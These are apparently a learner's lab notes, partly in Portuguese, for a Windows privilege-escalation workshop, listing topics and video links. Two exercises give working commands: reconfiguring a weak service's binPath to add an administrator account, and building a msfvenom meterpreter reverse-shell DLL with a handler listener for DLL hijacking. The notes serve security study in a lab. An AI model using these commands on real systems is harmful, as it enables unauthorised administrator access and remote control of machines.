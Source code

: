 source: https://github.com/sagishahar/lpeworkshop

# Kernel

    01 - Kernel 

01 Video: https://www.youtube.com/watch?v=HTM-BavQvs4&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=2&t=0s

----------------------------------------------------------------------------------------------------------------------------------------
# Services

    01 - Services (binPath)

    02 - Services (DLL Hijacking)

    03 - Services (Unquoted Path)

    04 - Services (Registry)

    05 - Services (Executable File)


01 - https://www.youtube.com/watch?v=7KjCTmSb1PM&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=3&t=0s

## Exercises:

### 01 - Exploitation - Services (binPath)

Scripts for WPE

    Powerless
    PowerUp
    Sherlock / Watson
    JAWS
    SharpUp

#### Using powershell with PowerUP.ps1

> Import-Module .\PowerUp.ps1

> Get-ModifiableService

AbuseFunction

> Invoke-ServiceAbuse -Name 'daclsvc'

Next, check user John added with permissions Administrator.

> net user

#### Using CMD 

> accesschk64.exe -wuvcq user *

> sc config daclsvc binpath= "net user anakein pass1234 /add"

> sc stop daclsvc

> sc start daclsvc

> sc config daclsvc binpath= "net user localgroup administradors anakein /add"

Start service

> sc start daclsvc

List users in administrators group

> net localgroup administrators

----------------------------------------------------------------------------------------------------------------------------------------
### 02 - Exploitation - Services (DLL Hijacking)

List services and search any suspect

> net start

(DLL Hijack Service) parece ser suspect.

Depois, procure o nome desse service suspect. No exemplo usamos o (DLL Hijack Service)

> sc queryex type= service state= all |findstr /i "DLL"

Encontramos algumas strings que possuem o nome "DLL", vamos verificar as relacoes entre eles. Alem do (dllsvc) que encontrei, existia mais outros 2. Vou comecar por ele entao.

> sc qc dllsvc

Bom, na descricao ele encontra-se vinculado com o (DLL Hijack Service), que no caso eh referente ao PATH.

Precisamos encontrar agora a dll equivalente ao servico.


###
gerando a dll maliciosa para ser substituida e carregada com o servico for iniciado novamente.

$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.17 LPORT=53 -f dll > nomedadll_relacionada_E_ser_substituida.dll

a dll gerada (nomedadll_relacionada_E_ser_substituida.dl) por ser adicionada no C:\TEMP, quando for iniciado o servico suspeito, ganharemos nossa shell, mas antes eh preciso deixa o modo handler ativo no MSFCONSOLE

agora iniciamos o modo handler.

$ use exploit/multi/handler

    set PAYLOAD windows/x64/meterpreter/reverse_tcp

    set LHOST 192.168.0.17

    set LPORT 53

    exploit





----------------------------------------------------------------------------------------------------------------------------------------
02 - https://www.youtube.com/watch?v=9s8jYwx9FSA&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=4&t=0s

03 - https://www.youtube.com/watch?v=b5Tbgl_Nd-g&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=5&t=0s

04 - https://www.youtube.com/watch?v=b5Tbgl_Nd-g&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=5&t=0s

05 - https://www.youtube.com/watch?v=TDgQzcjFeME&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=6&t=0s

06 - https://www.youtube.com/watch?v=yDGt7O87Zn0&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=7&t=0s


# Registry

    01 - Registry (Autorun)
     
    02 - Registry (AlwaysInstallElevated)
 
01 - https://www.youtube.com/watch?v=4W35tw_Di8k&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=8&t=0s

02 - https://www.youtube.com/watch?v=9LpsofQN_ao&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=9&t=0s

# Password Mining
     
    01 - Password Mining (Memory)

    02 - Password Mining (Registry)
     
    03 - Password Mining (Configuration Files)

01 - https://www.youtube.com/watch?v=2fF4Xre-w2g&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=11&t=0s

02 - https://www.youtube.com/watch?v=2fF4Xre-w2g&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=11&t=0s

03 - https://www.youtube.com/watch?v=sm9xgpgaEQw&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=12&t=0s

# Hot Potato

    01 - Hot Potato
    
01 - https://www.youtube.com/watch?v=EtxQGO58zp4&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=13&t=0s
     
# Scheduled Tasks 

    01 - Scheduled Tasks (Missing Binary)

01 - https://www.youtube.com/watch?v=Kgga91U3B4s&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=14&t=0s

# Startup Applications

    01 - Startup Applications

01 - https://www.youtube.com/watch?v=UnrFo8W-l3M&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=15&t=0s

----------------------------------------------------------------------------------------------------------------------------------------

Reference:

https://ivanitlearning.wordpress.com/2019/07/26/scripts-for-windows-privilege-escalation/

https://medium.com/@orhan_yildirim/windows-privilege-escalation-insecure-service-permissions-e4f33dbff219

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_windows.html


Downloads .ISO's for labs:

https://archive.org/advancedsearch.php




